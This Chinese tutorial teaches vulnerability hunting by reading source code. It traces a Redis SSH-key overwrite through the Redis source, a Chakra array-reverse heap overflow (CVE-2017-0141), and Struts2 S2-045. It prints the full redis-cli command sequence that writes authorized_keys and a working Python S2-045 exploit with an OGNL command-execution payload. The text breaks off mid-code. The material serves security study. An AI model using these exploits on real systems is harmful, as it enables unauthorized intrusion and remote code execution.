读代码要带有目的去读,是要挖漏洞还是想要了解这个程序到在底干了些什么

要理解整体的时候,千万不要在某个细节里钻牛角尖

要一边理解细节一边挖洞的时候,记得要联想到所有可能的情况


## 必备工具

  Source Insight ,redis 源码,VS2017 ,Chakra 源码 ,Struts2 源码


## 从一个利用思路到源码层上的理解

  本节从一个redis 提权思路开始一步步分析,原文地址:https://www.huangdc.com/443 .这篇文章主要说的是,找到了未授权的redis 然后使用`config` 命令进行ssh key 的替换,使得攻击者可以使用ssh 免密码登陆的方式 直接getshell .我们看看文章里的关键部分

```bash

    [root@vm200-78 ~]# cat mypubkey.txt |redis-cli -h 192.168.203.224 -p 4700 -x set mypubkey
    OK
    [root@vm200-78 ~]# redis-cli -h 192.168.203.224 -p 4700
    redis 192.168.203.224:4700> config set dir /root/.ssh/
    OK
    redis 192.168.203.224:4700> config set dbfilename "authorized_keys"
    OK
    redis 192.168.203.224:4700> save
    OK
    redis 192.168.203.224:4700>

```

  把mypubkey.txt 的内容写入到了mypubkey 之后,然后使用`config set dir` 改变数据保存目录,再使用`config set dbfilename "authorized_keys"` 改变数据保存文件名,接下来使用`save` 进行数据保存,把ssh key 保存到/root/.ssh 中,下载好redis 的源码,我们来探索一下

  这个命令叫config ,那么我们到Github 上来搜索有config 的地方


  有config 字符串的地方太多了,我们换一个来搜索,找save 命令


  搜索save 的结果不是很多,在第二页就可以找到所有命令的声名了


  接下来我们来看看`src/server.c` 的代码,搜索saveCommand 


  现在可以进一步确定这个地方是命令声名的地方,`save` 是命令的字符串,`saveCommand` 是命令的入口点,那么我们搜索`config`


  现在能够定位到`config` 命令的入口函数了,继续搜索configCommand


  定位到configCommand 函数在`src/config.c` ,进去源码文件继续查找


  找到configCommand ,源码如下:

```c

    void configCommand(client *c) {
        /* Only allow CONFIG GET while loading. */
        if (server.loading && strcasecmp(c->argv[1]->ptr,"get")) {
            addReplyError(c,"Only CONFIG GET is allowed during loading");
            return;
        }

        if (c->argc == 2 && !strcasecmp(c->argv[1]->ptr,"help")) {
            const char *help[] = {
                "get <pattern> -- Return parameters matching the glob-like <pattern> and their values.",
                "set <parameter> <value> -- Set parameter to value.",
                "resetstat -- Reset statistics reported by INFO.",
                "rewrite -- Rewrite the configuration file.",
                NULL
            };
            addReplyHelp(c, help);
        } else if (!strcasecmp(c->argv[1]->ptr,"set") && c->argc == 4) {  //  注意这里,config set 命令
            configSetCommand(c);
        } else if (!strcasecmp(c->argv[1]->ptr,"get") && c->argc == 3) {
            configGetCommand(c);
        } else if (!strcasecmp(c->argv[1]->ptr,"resetstat") && c->argc == 2) {
            resetServerStats();
            resetCommandTableStats();
            addReply(c,shared.ok);
        } else if (!strcasecmp(c->argv[1]->ptr,"rewrite") && c->argc == 2) {
            if (server.configfile == NULL) {
                addReplyError(c,"The server is running without a config file");
                return;
            }
            if (rewriteConfig(server.configfile) == -1) {
                serverLog(LL_WARNING,"CONFIG REWRITE failed: %s", strerror(errno));
                addReplyErrorFormat(c,"Rewriting config file: %s", strerror(errno));
            } else {
                serverLog(LL_WARNING,"CONFIG REWRITE executed with success.");
                addReply(c,shared.ok);
            }
        } else {
             addReplyErrorFormat(c, "Unknown subcommand or wrong number of arguments for '%s'. Try CONFIG HELP",
                (char*)c->argv[1]->ptr);
            return;
        }
    }

```

  继续对`configSetCommand()` 函数进行跟踪,在`src/config.c:837` 行代码,由于代码量比较多,在此挑选一些比较重点的地方来说

```c

    void configSetCommand(client *c) {
        robj *o;
        long long ll;
        int err;
        serverAssertWithInfo(c,c->argv[2],sdsEncodedObject(c->argv[2]));
        serverAssertWithInfo(c,c->argv[3],sdsEncodedObject(c->argv[3]));
        o = c->argv[3];

        if (0) { /* this starts the config_set macros else-if chain. */

        /* Special fields that can't be handled with general macros. */
        config_set_special_field("dbfilename") {  //  命令config set dbfilename
            if (!pathIsBaseName(o->ptr)) {  //  
                addReplyError(c, "dbfilename can't be a path, just a filename");
                return;
            }
            zfree(server.rdb_filename);
            server.rdb_filename = zstrdup(o->ptr);
            
        //  ...
            
        } config_set_special_field("dir") {  //  命令config set dir
            if (chdir((char*)o->ptr) == -1) {
                addReplyErrorFormat(c,"Changing directory: %s", strerror(errno));
                return;
            }
        }
        
        //  ...
    }

```

  `config set dir` 这个命令很好理解,就是改变当前运行目录路径.`config set dbfilename` 则是设置redis 服务器的rdb_filename 字段.明白了`config set` 的工作原理之后,回来再看看`save` 命令.使用上面的方法找到`saveCommand()` 函数,在`src/rdb.c:2073` 行.

```c

    void saveCommand(client *c) {
        if (server.rdb_child_pid != -1) {
            addReplyError(c,"Background save already in progress");
            return;
        }
        rdbSaveInfo rsi, *rsiptr;
        rsiptr = rdbPopulateSaveInfo(&rsi);
        if (rdbSave(server.rdb_filename,rsiptr) == C_OK) {
            addReply(c,shared.ok);
        } else {
            addReply(c,shared.err);
        }
    }

```

  我们再来找找`rdbSave()` 函数.`CTRL + F` 搜素一下有没有在当前的代码文件里.
  


  同一个文件上有很多rdbSave 的关键字,我们要找的是函数声明,那么加上一个`(` 符号,搜素字符串`rdbSave(`
  


  这样搜素出来的结果就少很多,往上找一找,就能够直接定位到`rdbSave()` 函数,在`src/rdb.c:1042` 行

```c

    /* Save the DB on disk. Return C_ERR on error, C_OK on success. */
    int rdbSave(char *filename, rdbSaveInfo *rsi) {
        char tmpfile[256];
        char cwd[MAXPATHLEN]; /* Current working dir path for error messages. */
        FILE *fp;
        rio rdb;
        int error = 0;

        snprintf(tmpfile,256,"temp-%d.rdb", (int) getpid());  //  生成一个临时文件名
        fp = fopen(tmpfile,"w");  //  创建文件
        if (!fp) {
            char *cwdp = getcwd(cwd,MAXPATHLEN);
            serverLog(LL_WARNING,
                "Failed opening the RDB file %s (in server root dir %s) "
                "for saving: %s",
                filename,
                cwdp ? cwdp : "unknown",
                strerror(errno));
            return C_ERR;
        }

        rioInitWithFile(&rdb,fp);
        if (rdbSaveRio(&rdb,&error,RDB_SAVE_NONE,rsi) == C_ERR) {  //  保存数据到文件
            errno = error;
            goto werr;
        }

        /* Make sure data will not remain on the OS's output buffers */
        if (fflush(fp) == EOF) goto werr;
        if (fsync(fileno(fp)) == -1) goto werr;
        if (fclose(fp) == EOF) goto werr;  //  关闭文件

        /* Use RENAME to make sure the DB file is changed atomically only
         * if the generate DB file is ok. */
        if (rename(tmpfile,filename) == -1) {  //  重命名文件
            char *cwdp = getcwd(cwd,MAXPATHLEN);
            serverLog(LL_WARNING,
                "Error moving temp DB file %s on the final "
                "destination %s (in server root dir %s): %s",
                tmpfile,
                filename,
                cwdp ? cwdp : "unknown",
                strerror(errno));
            unlink(tmpfile);
            return C_ERR;
        }

        serverLog(LL_NOTICE,"DB saved on disk");
        server.dirty = 0;
        server.lastsave = time(NULL);
        server.lastbgsave_status = C_OK;
        return C_OK;

    werr:
        serverLog(LL_WARNING,"Write error saving DB on disk: %s", strerror(errno));
        fclose(fp);
        unlink(tmpfile);
        return C_ERR;
    }

```

  看完了上面的代码之后,我们知道:fopen 会在当前目录下生成一个临时文件来保存数据,那么通过`config set dir` 改变目录到`/root/.ssh/` ,`fopen()` 函数就会在`/root/.ssh/` 目录下生成文件.我们来看看`rdbSave()` 函数重命名文件部分的代码
  
```c

    if (rename(tmpfile,filename) == -1) {  //  重命名文件
        char *cwdp = getcwd(cwd,MAXPATHLEN);
        
        // ...
        
        unlink(tmpfile);
        return C_ERR;
    }

```

  filename 是rdbSave 函数的参数
  
```c

    /* Save the DB on disk. Return C_ERR on error, C_OK on success. */
    int rdbSave(char *filename, rdbSaveInfo *rsi) {

```

  然后回去看`saveCommand()` 的源码,filename 其实是server.rdb_filename

```c

    if (rdbSave(server.rdb_filename,rsiptr) == C_OK) {
    
```


## 从一个漏洞Commit 到理解这一类的漏洞挖掘方式

  本节从一个Chakra 的Bug Commit : [CVE-2017-0141] ReverseHelper Heap Overflow ,Link https://github.com/Microsoft/ChakraCore/commit/db504eba489528434dfb56257b0f202209741fe9 .和读者们分享一下如何从阅读源码的层面上对JavaScript 的OOB 漏洞挖掘的一些思路.



  看到diff 知道代码修复的位置,现在我们到Source Insight 里面找找.找到这个按钮



  现在在搜素里面找ReverseHelper ,Source Insight 能找到这个函数



  双击这里之后,就跳到了ReverseHelper ,我们在看看函数列表这里



  是不是看到了很多其他的函数,这些函数就是Chakra 的JavaScript 内部对象的实现函数.要触发ReverseHelper 函数的调用,可以构造如下的代码.
  
```javascript

    data = Array();
    
    data.reverse();

```
  
  注意,**Chakra 是在底层上实现内部对象函数的,V8 是在Native JavaScript 上实现内部对象函数的**.
  
  让我们回来继续分析漏洞成因.由于代码一直有变化,patch 了的代码和原来Commit 的位置已经不同了,不过没有关系,能定位到就好.



  pArr 到底是什么东西呢,我们来查看它的定义





  `ReverseHelper()` 的声明如下:
  
```c++

    Var JavascriptArray::ReverseHelper(JavascriptArray* pArr, Js::TypedArrayBase* typedArrayBase, RecyclableObject* obj, T length, ScriptContext* scriptContext)

```

  现在我们找到了pArr 和length 的来源了.来看看`ReverseHelper()` 被哪些地方引用到



```

    JavascriptArray.cpp (lib\runtime\library):            JS_REENTRANT_UNLOCK(jsReentLock, return JavascriptArray::ReverseHelper(pArr, nullptr, obj, length.GetSmallIndex(), scriptContext));
    JavascriptArray.cpp (lib\runtime\library):        JS_REENTRANT_UNLOCK(jsReentLock, return JavascriptArray::ReverseHelper(pArr, nullptr, obj, length.GetBigIndex(), scriptContext));
    JavascriptArray.cpp (lib\runtime\library):    Var JavascriptArray::ReverseHelper(JavascriptArray* pArr, Js::TypedArrayBase* typedArrayBase, RecyclableObject* obj, T length, ScriptContext* scriptContext)
    JavascriptArray.h (lib\runtime\library):        static Var ReverseHelper(JavascriptArray* pArr, Js::TypedArrayBase* typedArrayBase, RecyclableObject* obj, T length, ScriptContext* scriptContext);
    TypedArray.cpp (lib\runtime\library):        return JavascriptArray::ReverseHelper(nullptr, typedArrayBase, typedArrayBase, typedArrayBase->GetLength(), scriptContext);

```

  我们搜素当前的源码文件的那两个引用.最后定位到`JavascriptArray::EntryReverse()`

```c++

    Var JavascriptArray::EntryReverse(RecyclableObject* function, CallInfo callInfo, ...)  //  在Chakra 中,内部对象处理函数都长这样
    /*
      注意:Chakra 的内部函数调用原理是这样的:callInfo 传递给函数调用的参数列表.里面包含了当前对象和函数参数对象列表,callInfo[0] 是当前对象,callInfo[1] 往后就是函数参数列表
    */
    {
        PROBE_STACK(function->GetScriptContext(), Js::Constants::MinStackDefault);

        ARGUMENTS(args, callInfo);  //  格式化callInfo 成args
        ScriptContext* scriptContext = function->GetScriptContext();
        JS_REENTRANCY_LOCK(jsReentLock, scriptContext->GetThreadContext());

        Assert(!(callInfo.Flags & CallFlags_New));

        if (args.Info.Count == 0)  //  无法获取当前的Array 对象
        {
            JavascriptError::ThrowTypeError(scriptContext, JSERR_This_NullOrUndefined, _u("Array.prototype.reverse"));
        }

        BigIndex length = 0u;  //  注意,这个就是传递到ReverseHelper() 的length
        JavascriptArray* pArr = nullptr;
        RecyclableObject* obj = nullptr;

        JS_REENTRANT(jsReentLock, TryGetArrayAndLength(args[0], scriptContext, _u("Array.prototype.reverse"), &pArr, &obj, &length));  //  从当前的Array 对象中获取信息,其中包含了数组长度,Array 指针

        if (length.IsSmallIndex())
        {
            JS_REENTRANT_UNLOCK(jsReentLock, return JavascriptArray::ReverseHelper(pArr, nullptr, obj, length.GetSmallIndex(), scriptContext));  //  调用ReverseHelper
        }
        Assert(pArr == nullptr || length.IsUint32Max()); // if pArr is not null lets make sure length is safe to cast, which will only happen if length is a uint32max

        JS_REENTRANT_UNLOCK(jsReentLock, return JavascriptArray::ReverseHelper(pArr, nullptr, obj, length.GetBigIndex(), scriptContext));  //  调用ReverseHelper
    }

```

  再来看看`TryGetArrayAndLength()` 做了些什么

```c++

    template<typename T>
    void JavascriptArray::TryGetArrayAndLength(Var arg,
        ScriptContext *scriptContext,
        PCWSTR methodName,
        __out JavascriptArray** array,
        __out RecyclableObject** obj,
        __out T * length)
    {
        Assert(array != nullptr);
        Assert(obj != nullptr);
        Assert(length != nullptr);

        *array = JavascriptOperators::TryFromVar<JavascriptArray>(arg);
        if (*array && !(*array)->IsCrossSiteObject())  //  判断Array 是否为跨站对象
        {
            #if ENABLE_COPYONACCESS_ARRAY
                JavascriptLibrary::CheckAndConvertCopyOnAccessNativeIntArray<Var>(*array);
            #endif
            
            *obj = *array;
            *length = (*array)->length;  //  返回的长度为真实的数组长度
        }
        else
        {
            if (!JavascriptConversion::ToObject(arg, scriptContext, obj))
            {
                JavascriptError::ThrowTypeError(scriptContext, JSERR_This_NullOrUndefined, methodName);
            }
            *length = OP_GetLength(*obj, scriptContext);  //  返回的长度为JavaScript 属性length 设置的值
            *array = nullptr;
        }
    }

```

  `IsCrossSiteObject()` 到底做了什么工作呢?读者可以自行搜素代码来阅读.


  相信读者开始有一个疑问,`*length = (*array)->length;` 和`*length = OP_GetLength(*obj, scriptContext);` 到底有什么不同呢?**理解它们两个差异,就可以理解JavaScript 关于数组越界的漏洞的成因**.让我们再深入去了解它们背后的故事.

```c++

    class ArrayObject : public DynamicObject  //  lib/runtime/types/ArrayObject.h:18
    {
    protected:
        Field(uint32) length;


    class JavascriptArray : public ArrayObject  //  lib/runtime/library/JavascriptArray.h:94
    {

```

  JavascriptArray 是继承ArrayObject 的,我们来看看JavascriptArray 的构造函数

```c++

    JavascriptArray::JavascriptArray(uint32 length, DynamicType * type)
        : ArrayObject(type, false, length)
    {
        Assert(JavascriptArray::Is(type->GetTypeId()));
        Assert(EmptySegment->length == 0 && EmptySegment->size == 0 && EmptySegment->next == NULL);
        InitArrayFlags(DynamicObjectFlags::InitialArrayValue);
        SetHeadAndLastUsedSegment(const_cast<SparseArraySegmentBase *>(EmptySegment));
    }

```

  由此可知,JavascriptArray 初始化长度length 最后传递给ArrayObject 的构造函数.

```c++

    ArrayObject(DynamicType * type, bool initSlots = true, uint32 length = 0)
        : DynamicObject(type, initSlots), length(length)
    {
    
```

  弄明白了`JavascriptArray->length` 之后,再来理解`OP_GetLength` .前面说过,Op_GetLength 是JavaScript 属性length 设置的值.现在我们来分析一下代码

```c++

    uint64 JavascriptArray::OP_GetLength(Var obj, ScriptContext *scriptContext)  //  lib/runtime/library/JavascriptArray.cpp:3025
    {
        if (scriptContext->GetConfig()->IsES6ToLengthEnabled())
        {
            // Casting to uint64 is okay as ToLength will always be >= 0.
            return (uint64)JavascriptConversion::ToLength(JavascriptOperators::OP_GetLength(obj, scriptContext), scriptContext);
        }
        else
        {
            return (uint64)JavascriptConversion::ToUInt32(JavascriptOperators::OP_GetLength(obj, scriptContext), scriptContext);
        }
    }

```

  这段代码里面有两个OP_GetLength ,分别是`JavascriptArray::OP_GetLength` 和`JavascriptOperators::OP_GetLength` ,他们需要的函数参数都是`Var obj` 和`ScriptContext *scriptContext` ,参数obj 的意思是当前对象,参数scriptContext 的意思是JavaScript 执行环境上下文.再去阅读`JavascriptOperators::OP_GetLength()`

```c++

    Var JavascriptOperators::OP_GetLength(Var instance, ScriptContext* scriptContext)
    {
        return JavascriptOperators::OP_GetProperty(instance, PropertyIds::length, scriptContext);
    }

```

  看到这里读者们应该理解了,OP_GetLength 就是读取对象属性length 的值,再看看`JavascriptOperators::OP_GetProperty()` 的代码
  
```c++

    Var JavascriptOperators::OP_GetProperty(Var instance, PropertyId propertyId, ScriptContext* scriptContext)
    {
        RecyclableObject* object = nullptr;
        if (FALSE == JavascriptOperators::GetPropertyObject(instance, scriptContext, &object))  //  找不到对象的属性
        {
            if (scriptContext->GetThreadContext()->RecordImplicitException())
            {
                JavascriptError::ThrowTypeError(scriptContext, JSERR_Property_CannotGet_NullOrUndefined, scriptContext->GetPropertyName(propertyId)->GetBuffer());
            }
            else
            {
                return scriptContext->GetLibrary()->GetUndefined();  //  返回undefined 的值
            }
        }

        Var result = JavascriptOperators::GetPropertyNoCache(instance, object, propertyId, scriptContext);  //  拿到对象属性的值
        AssertMsg(result != nullptr, "result null in OP_GetProperty");
        return result;
    }

```

  聪明的你应该开始举一反三了,右键JavascriptOperators::OP_GetLength 搜素引用,开开心心挖漏洞.下面截个搜素引用结果的图



  挑一些引用到Length 引用的地方,大部分JavaScript 执行引擎的OOB 漏洞都是因为长度可以被控制产生的问题







## 结合PoC 和源码来理解这类漏洞的原理

  前面说了很多二进制(主要是C/C++ )的例子,现在来一个JAVA 库Struts2 的分析.以S2-045 为例子,从PoC 到触发漏洞的原理再深入理解WEB 类漏洞是怎么来挖的.我去百度了一个S2-045 的EXP .

```python

    import urllib2
    import sys
    from poster.encode import multipart_encode
    from poster.streaminghttp import register_openers

    def poc():
        register_openers()
        datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})  #  构造Post 数据包
        header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
        header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"  #  在Content-Type 中插入OGNL 利用代码
        request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)  #  发送EXP
        response = urllib2.urlopen(request)
        print response.read()

    poc()

```

  从PoC 里我们得知,恶意代码是从`Content-Type` 里面传递到漏洞点执行的.翻了翻Issus ,找到当时修复的Diff ,Link:https://github.com/apache/struts/commit/b06dd50af2a3319dd896bf5c2f4972d2b772cf2b





  是不是觉得很神奇,是下面这句代码引发的血案

```java

    for (LocalizedMessage error : multiWrapper.getErrors()) {
        if (validation != null) {
            validation.addActionError(LocalizedTextUtil.findText(error.getClazz(), error.getTextKey(), ActionContext.getContext().getLocale(), error.getDefaultMessage(), error.getArgs()));
 
```

  无论是WEB 还是二进制漏洞,本质上都是找到一个可以做到远程代码执行的地方.二进制里大多数的远程代码执行漏洞都是由于内存操作不当而引起的(想了解更多关于二进制因内存操作不当导致的远程代码执行的知识,请到这里了解更多:https://github.com/lcatro/vuln_javascript ),但是不排除有因为函数调用没有正确过滤而导致的代码执行问题(参考CVE-2018-1000006 ,Commit:https://github.com/electron/electron/commit/c49cb29ddf3368daf279bd60c007f9c015bc834c );WEB 里的漏洞基本上都是因为调用敏感函数的问题导致的安全问题,比如:system() 远程命令执行,eval() 一句话木马,mysql_query() 数据库注入和现在要介绍的OGNL 执行函数.**如果没有对输入做校验和字符过滤,很有可能会让用户的输入流到敏感函数,导致远程代码执行,服务器被Getshell**.

  现在回来看看上面的代码,到底哪儿出现了问题呢?我们先来阅读`LocalizedTextUtil.findText()` 的源码.在`core/src/main/java/com/opensymphony/xwork2/util/AbstractLocalizedTextProvider.java:194` 行

```java

    /**
     * <p>
